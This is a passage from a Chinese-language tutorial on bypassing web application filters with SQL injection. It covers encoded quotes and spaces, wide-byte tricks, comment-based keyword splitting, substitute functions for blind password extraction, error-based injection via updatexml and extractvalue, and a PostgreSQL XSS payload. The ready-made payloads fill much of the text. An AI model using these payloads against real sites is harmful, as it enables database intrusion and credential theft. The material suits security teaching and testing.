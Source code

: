 单引号:%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

	举例：?id=10%D6‘%20AND%201=2%23　　
	SELECT 'Ä'='A'; #1

两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个**宽字节**即Unicode字节，单引号可以正常使用  

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过  

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下  

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子  
**d. 使用注释**  
看一下常见的用于注释的符号有哪些：//, -- , /**/, #, --+,--  -, ;，--a  
1.普通注释  
举例：z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4　　　 
'union%a0select pass from users#  
/**/在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询  
2.内联注释  
相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别
  
	举例：index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
	?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…    

两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用  
**e. 等价函数与命令**  
有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用  
1.函数或变量  
hex()、bin() ==> ascii()  
sleep() ==>benchmark()  
concat_ws()==>group_concat()  
mid()、substr() ==> substring()  
@@user ==> user()  
@@datadir ==> datadir()  
举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　 
或者：substr((select 'password'),1,1) = 0x70   
　　　strcmp(left('password',1), 0x69) = 1  
　　   strcmp(left('password',1), 0x70) = 0  
　　　strcmp(left('password',1), 0x71) = -1  
上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论  
2.符号  
and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了  
在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/  
3.生僻函数  
MySQL/PostgreSQL支持XML函数：  

	Select UpdateXML(‘<script x=_></script>’,’/script/@x/’,’src=//evil.com’);  
	?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
	SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
	?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能，而且代价太大，看来黑名单技术到一定程度便遇到了限制
4.冷门函数/标签绕过  
